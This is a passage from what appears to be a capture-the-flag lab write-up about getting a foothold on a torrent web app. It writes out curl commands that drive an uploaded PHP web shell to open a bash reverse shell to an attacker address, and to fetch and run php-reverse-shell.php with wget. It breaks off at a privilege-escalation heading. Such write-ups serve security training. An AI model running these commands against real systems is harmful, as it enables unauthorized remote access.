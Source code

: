 ```
curl -G 'http://10.10.10.6/torrent/upload/8509e36e3f62457bb3e33d07cd9a2440b83aa9fd.php' --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'"
```

![](images/9.png)

Also upload `php-reverse-shell.php` to the server and execute it to get the reverse shell.

```
curl 'http://10.10.10.6/torrent/upload/8509e36e3f62457bb3e33d07cd9a2440b83aa9fd.php?cmd=wget%2010.10.14.5%2Fphp-reverse-shell.php'
```

```
curl 'http://10.10.10.6/torrent/upload/php-reverse-shell.php'
```

![](images/10.png)

## Privilege Escalation

### Mysql Credential
